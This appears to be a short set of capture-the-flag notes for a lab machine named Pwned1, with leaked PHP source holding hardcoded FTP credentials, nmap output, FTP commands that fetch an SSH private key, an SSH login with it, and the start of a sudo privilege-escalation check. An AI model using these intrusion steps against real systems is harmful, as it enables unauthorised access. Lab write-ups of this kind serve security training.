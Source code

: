 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Pwned1
# 25/2/2023

----------------------------------------------------
# view-source:http://192.168.141.95/pwned.vuln/
----------------------------------------------------
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))


login ftp
ls
cd share
get note.txt
get id_rsa


└─$ ssh ariana@192.168.141.95 -i id_rsa 

----------------------------------------------------
# PrivEsc
----------------------------------------------------
ariana@pwned:~$ sudo -l
    (selena) NOPASSWD: /home/messenger.sh
